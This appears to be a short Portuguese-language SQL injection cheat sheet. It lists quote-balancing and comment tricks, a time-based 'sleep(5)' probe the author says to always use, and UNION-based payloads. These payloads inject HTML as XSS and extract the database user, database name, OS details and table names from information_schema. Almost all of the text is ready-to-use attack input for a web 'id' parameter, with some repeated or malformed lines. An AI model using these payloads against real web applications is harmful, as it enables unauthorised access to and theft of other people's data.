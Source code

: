 # leettime

DB : TABELA : COLUNA : LINHA
                              
select **COLUNA0,COLUNA1** from **TABELA0**
                                       
select * from **notas** where **IDaluno=1337 **         

select * from notas where IDaluno='1337'
                                          
select * from notas where IDaluno="1337"
                                             
select * from notas where IDaluno=(1337)
                        
select * from notas where IDaluno('1337')
                                                                                                     
select * from notas where IDaluno("1337")    
                                                 
?id=????                               

________________________________________                                                              
     TABELA0         |   TABELA2        |                                                             
_____________________|__________________|                                                             
COLUNA1  |   COLUNA2 | COLUNA1 | COLUNA2|
---------------------|------------------|
 LINHA1  |   LINHA1  | [...]   | [...]
 LINHA2  |   LINHA2  |
             LINHA3  |


COMENTARIOS: -- | # | ;%00 | `

SQLI: select * from username where id=1
SQLI: select nome from username where id=injection

id=1' and sleep(5)--+a   <<<<<< FACA ISSO SEMPRE


1- BALANCEIO | 2- INJECTION | 3-COMENTARIO

SQLI: select * from username where id=1
SQLI: select nome from username where id=injection

id=1' and sleep(5)--+a   <<<<<< FACA ISSO SEMPRE


1- BALANCEIO | 2- INJECTION | 3-COMENTARIO

---------------------------------------------
UNION
IDENTIFIQUE,<<<<<<<<<<<<
id=1' order by 1 --+anakein
?id=64' union select 13,<h1>PWN</h1>,3--+anakein      <<< XSS
?id=null' union select 66,user(),66--+anakein
?id=null' union select 66,database(),66--+anakein
?id=null' union select 66,concat(@@version_compile_os,0x20,@@version_compile_machine),66--+anakein
?id=null' union select 66,concat(select table_name from information_schema.tables where database()),66


